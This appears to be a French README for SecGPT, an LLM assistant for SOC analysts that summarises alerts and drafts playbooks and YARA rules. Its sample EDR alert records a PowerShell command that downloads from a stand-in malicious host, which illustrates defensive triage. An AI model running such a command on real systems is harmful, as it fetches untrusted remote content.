 
![image](https://github.com/user-attachments/assets/92577af6-2cac-47dc-9957-19f04de0d789)


# 🧠 SecGPT – Assistant IA pour analystes SOC

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.8+-blue.svg?style=for-the-badge&logo=python&logoColor=white" alt="Python 3.8+"/>
  <img src="https://img.shields.io/badge/LLM-OpenAI_&_Ollama-green.svg?style=for-the-badge&logo=openai&logoColor=white" alt="LLM"/>
  <img src="https://img.shields.io/badge/License-MIT-green.svg?style=for-the-badge" alt="License: MIT"/>
</p>

<p align="center">
  <b>Assistant IA conçu pour les analystes de sécurité SOC</b><br>
  <sub>🔍 Résumé d'alertes | 🛡️ Réponse aux incidents | 📋 Playbooks | 🧬 Règles YARA</sub>
</p>

---

## 📋 Description

**SecGPT** est un assistant IA pour les analystes SOC qui permet d'automatiser l'analyse initiale des alertes de sécurité. Il peut rapidement résumer des alertes complexes, suggérer des réponses appropriées, générer des playbooks et même proposer des règles YARA pour la détection.

> ⚠️ **Note importante** : Cet outil est conçu pour assister les analystes de sécurité, non pour les remplacer. Les recommandations générées doivent être examinées par un professionnel avant d'être appliquées.

### 🔍 Fonctionnalités principales

- 📄 **Résume des alertes** issues de différentes sources (EDR, mail de phishing, logs, etc.)
- 🔧 **Suggestion de réponses** adaptées au contexte de l'alerte
- ⚙️ **Génération de playbooks SOC** pour standardiser les procédures de réponse
- 🧬 **Création de règles YARA** de base pour la détection de menaces similaires
- 🧠 **Support de différents LLM** : GPT-4 (API OpenAI) ou modèles locaux via Ollama

## ⚙️ Installation

```bash
# Cloner le dépôt
git clone https://github.com/servais1983/SecGPT.git
cd SecGPT

# Installer les dépendances
pip install -r requirements.txt

# Configurer les variables d'environnement
cp .env.example .env
# Éditer .env avec votre clé API OpenAI ou configurez pour utiliser Ollama localement
```

## 🛠️ Utilisation

### Interface en ligne de commande

```bash
# Analyse d'une alerte à partir d'un fichier texte
python secgpt.py --input examples/alert.txt
```

### Interface web (Gradio)

```bash
# Lancer l'interface web
python ui/webapp.py
```

L'interface web sera accessible à l'adresse http://localhost:7860 par défaut.

## 💡 Exemples d'analyse

### Alerte JSON d'EDR

```json
{"timestamp":"2024-05-12T15:44:01Z","user":"jdoe","command":"powershell Invoke-WebRequest http://malicious.com","process":"powershell.exe"}
```

### Résultats générés

- **Résumé** : Analyse concise de l'alerte en langage clair
- **Réponse recommandée** : Actions à entreprendre immédiatement
- **Playbook** : Procédure étape par étape pour traiter l'incident
- **Règle YARA** : Détection de patterns similaires à l'avenir

## 🗂️ Structure du projet

```
secgpt/
├── app/              # Logique principale
│   ├── core.py       # Coordination des analyses IA
│   ├── models.py     # Connecteurs LLM (OpenAI, Ollama)
│   └── templates.py  # Prompts de base pour les LLM
├── ui/               # Interfaces utilisateur
│   └── webapp.py     # Interface web Gradio
├── examples/         # Exemples d'alertes pour tests
│   └── alert.txt     # Exemple d'alerte JSON
├── secgpt.py         # Interface CLI
├── requirements.txt  # Dépendances Python
├── .env.example      # Configuration (clés API, etc.)
└── README.md         # Documentation
```

## 🔄 Modes LLM supportés

Le projet supporte deux modes d'utilisation des LLM :

1. **OpenAI (GPT-4)** - Performances optimales mais nécessite une clé API et un coût d'utilisation
   - Configuration : `LLM_MODE=openai` dans .env
   - Nécessite : `OPENAI_API_KEY=sk-your-key-here`

2. **Ollama (local)** - Fonctionne entièrement en local, sans coût, mais performances réduites
   - Configuration : `LLM_MODE=ollama` dans .env (défaut)
   - Nécessite : [Ollama](https://ollama.ai/) installé localement avec au moins un modèle (llama2 par défaut)

## 📈 Fonctionnalités à venir

- [ ] Support pour d'autres modèles LLM (Claude, Gemini, etc.)
- [ ] Enrichissement contextuel des alertes (IOCs, réputation, etc.)
- [ ] Intégration MITRE ATT&CK pour classification des menaces
- [ ] Génération de rapports détaillés en format PDF
- [ ] API REST pour intégration à d'autres systèmes SOC
- [ ] Historisation et comparaison des alertes similaires

## 🤝 Contribuer

Les contributions sont les bienvenues ! N'hésitez pas à ouvrir une issue ou à soumettre une pull request.

## 📄 Licence

Ce projet est sous licence MIT - voir le fichier LICENSE pour plus de détails.

---

<p align="center">
  <sub>🔐 Développé pour aider les analystes SOC à traiter les alertes plus efficacement</sub>
</p>
